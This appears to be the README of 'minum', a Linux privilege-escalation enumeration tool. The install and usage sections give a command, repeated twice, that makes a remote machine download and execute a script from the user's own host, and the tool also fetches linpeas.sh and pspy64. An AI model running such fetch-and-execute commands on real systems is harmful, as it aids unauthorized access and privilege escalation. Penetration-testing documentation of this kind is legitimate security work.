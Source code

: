 # minum : Minimal Enumeration Tool

This enumeration for privilege escalation tool, unlike many others, is built towards the idea of finding the top most relevant privilege escalation vectors for its user.  
The idea is to prevent throwing a lot of things at the user and let him begin searching for a needle in a haystack.  

Instead, it will ask you for your preferable routes throughout its running and will present to the user only the interesting stuff.
Letting you spend more time on exploiting and less time on reading tons of text all over the place.  
At the end it will also load for you linpeas.sh automatically in case you want an indepth lookout.  

Have fun, and use my tool for good purposes! Educational purposes ONLY !!

P.S

Have some suggestions? Leave an issue and we will be able to look at it and make modifications.

Cheers!

## Install
On your local machine:
```
git clone https://github.com/nirzaaa/minum.git
cd minum
python -m http.server
```
p.s.  
Pay attention to play `linpeas.sh` and `pspy64` in that folder so we will be able to download it for you automatically :)

On the remote machine:
```
wget <my_ip>:8000/minlinum.sh; chmod +x minlinum.sh; ./minlinum.sh
```

## Usage

You can download the script to the remote machine and run it for you automatically by using:  
`wget <my_ip>:8000/minlinum.sh; chmod +x minlinum.sh; ./minlinum.sh`
